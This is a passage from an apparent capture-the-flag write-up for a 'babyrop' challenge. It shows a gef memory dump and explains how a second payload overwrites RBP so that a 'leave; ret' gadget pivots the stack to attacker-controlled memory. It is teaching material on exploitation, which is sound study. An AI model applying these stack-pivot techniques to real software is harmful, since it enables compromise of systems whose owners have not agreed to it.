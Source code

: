 The memory layout can be seen in the memory clearly. 

```python
(remote) gef➤  x/16xg 0x404000
0x404000:       0x0000000000000000      0x0000000000000000
0x404010 <print>:       0x00007fa368d7cbe0      0x00007fa368ef95c0
0x404020 <completed.0>: 0x0000000000000000      0x0000000000000000
0x404030:       0x0000000000000000      0x0000000000404820
0x404040:       0x0000000000401226      0x4343434343434343
0x404050:       0x4343434343434343      0x0000000000404800
0x404060:       0x0000000000401226  -->here    0x0000000000000000
0x404070:       0x0000000000000000      0x0000000000000000
```

The CEW (second) payload sets **`RBP` to `0x404058`**. By the end of `main`, **`RSP` becomes `0x404060` (the new `RIP`)**, which is the address of the `leave; ret` instruction.

![3e204f35aaeea3a13081d7b537d648c2.png](/assets/images/SmileyCTF-babyrop/3e204f35aaeea3a13081d7b537d648c2.png)

So, what's in the stack? The answer is `0x404800`. After the `leave` instruction executes, `RSP` will become `0x404068`, and `RBP` will become `0x404800`.
